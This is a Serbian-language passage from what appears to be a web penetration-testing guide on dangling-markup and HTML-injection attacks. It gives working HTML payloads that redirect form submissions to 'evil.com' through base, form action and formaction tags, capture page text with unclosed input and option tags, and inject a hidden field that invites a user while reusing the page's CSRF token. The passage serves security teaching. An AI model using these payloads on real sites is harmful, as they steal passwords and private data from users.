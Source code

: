 ### Krađa formi

```html
<base href='http://evil.com/'>
```

Zatim, obrasci koji šalju podatke putanji (kao `<form action='update_profile.php'>`) će slati podatke na zlonamernu domenu.

### Krađa obrazaca 2

Postavite zaglavlje obrasca: `<form action='http://evil.com/log_steal'>` ovo će prepisati sledeće zaglavlje obrasca i svi podaci iz obrasca će biti poslati napadaču.

### Krađa obrazaca 3

Dugme može promeniti URL na koji će informacije iz obrasca biti poslate pomoću atributa "formaction":

```html
<button name=xss type=submit formaction='https://google.com'>I get consumed!
```

Napadač može koristiti ovo da ukrade informacije.

Pronađite [**primer ovog napada u ovom opisu**](https://portswigger.net/research/stealing-passwords-from-infosec-mastodon-without-bypassing-csp).

### Krađa tajnih tekstualnih informacija 2

Koristeći poslednju pomenutu tehniku za krađu formi (ubacivanje novog zaglavlja forme) možete zatim ubaciti novo polje za unos:

```html
<input type='hidden' name='review_body' value="
```

i ovo polje za unos će sadržati sav sadržaj između njegovih dvostrukih navodnika i sledećih dvostrukih navodnika u HTML-u. Ovaj napad meša "_**Krađu tajnih tekstova u čistom obliku**_" sa "_**Krađom formi2**_".

Možete uraditi istu stvar ubacivanjem forme i `<option>` oznake. Svi podaci dok se ne pronađe zatvoreni `</option>` će biti poslati:

```html
<form action=http://google.com><input type="submit">Click Me</input><select name=xss><option
```

### Ubacivanje parametara obrasca

Možete promeniti putanju obrasca i ubaciti nove vrednosti kako bi se izvršila neočekivana radnja:

```html
<form action='/change_settings.php'>
<input type='hidden' name='invite_user'
value='fredmbogo'>                                        ← Injected lines

<form action="/change_settings.php">                        ← Existing form (ignored by the parser)
...
<input type="text" name="invite_user" value="">             ← Subverted field
...
<input type="hidden" name="xsrf_token" value="12345">
...
</form>
```
